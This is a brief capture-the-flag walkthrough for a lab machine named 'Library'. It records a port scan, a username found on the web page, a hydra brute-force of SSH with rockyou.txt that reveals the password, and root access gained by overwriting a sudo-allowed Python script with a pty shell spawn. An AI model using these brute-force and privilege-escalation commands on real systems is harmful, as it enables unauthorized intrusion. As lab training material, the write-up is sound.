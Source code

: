 # Library
```
EXPORT IP=10.10.253.227
```

## SCAN
```
22 SSH
80 HTTP 
```

## Credential
```
1. interesting ID
- http://10.10.253.227/#
- meliodas
```

## Ganing Access
```
1. hydra -l meliodas -P rockyou.txt EXPORT_IP ssh

2. password is "iloveyou1"
```


## Priviliege Escalate
```
: sudo -l
:   (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py

1. rm -rf bak.py
2. echo "import pty;pty.spawn('/bin/sh')" > /home/meliodas/bak.py 
3. sudo python /home/meliodas/bak.py
```

# Done
